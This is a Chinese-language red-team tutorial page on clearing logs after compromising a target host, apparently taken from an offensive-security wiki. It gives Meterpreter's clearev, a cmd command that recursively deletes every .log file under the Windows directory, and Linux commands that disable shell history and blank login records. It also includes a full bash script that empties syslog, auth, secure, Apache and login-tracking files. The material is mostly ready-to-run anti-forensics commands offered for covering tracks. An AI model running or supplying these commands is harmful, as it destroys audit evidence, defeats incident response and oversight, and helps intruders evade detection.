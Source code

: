 仅系统日志清理，如果目标服务存在日志服务器的话，所有日志还会被保留。这里仅清理系统相关日志，如果访问了某些服务，比如说通过 apache 服务获得一个 shell，你还需要清理 apache 服务的访问日志。

## 1 Windows 用 sdelete



> Windows 下运行 eventvwr 查看日志

msf 清理

```
meterpreter > clearev
```

cmd 清理

```
meterpreter > shell
C:\Windows\system32>del %WINDIR%\*.log /a/s/q/f
```

## 2 Linux 用 shred

>Linux 可能根据发行版本不同，日志文件名称也有所不同。所以具体清除需要大家先看一下目标操作系统

清理历史命令（仅能清理当下进程）

```
[root@CentOS-76 ~]# history -c
```

使系统不再保存历史命令

```
[root@CentOS-76 ~]# vim /etc/profile
```

> 将 `HISTSIZE=1000` 改为 `HISTSIZE=0`，

```
HISTSIZE=1000
```

```
HISTSIZE=0
```

删除访问日志

1. 访问失败的日志

```
[root@CentOS-76 ~]# echo > /var/log/btmp
```

2. 访问成功的日志

```
[root@CentOS-76 ~]# echo > /var/log/wtmp
```

> 删除后执行 `last` 命令就会发现没有记录

执行脚本

```
[root@CentOS-76 ~]# source clear_logs_linux.sh
```

```sh
#!/bin/bash
#Linux 日志&命令清理
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
history -c
```

> source 在当前进程下执行
>
> 执行时注意文件是否有执行权限。而且只有 root 才可以删除日志。

---

References

- [日志清理](https://wiki.iredteam.cn/the-report-stage/log-cleaning)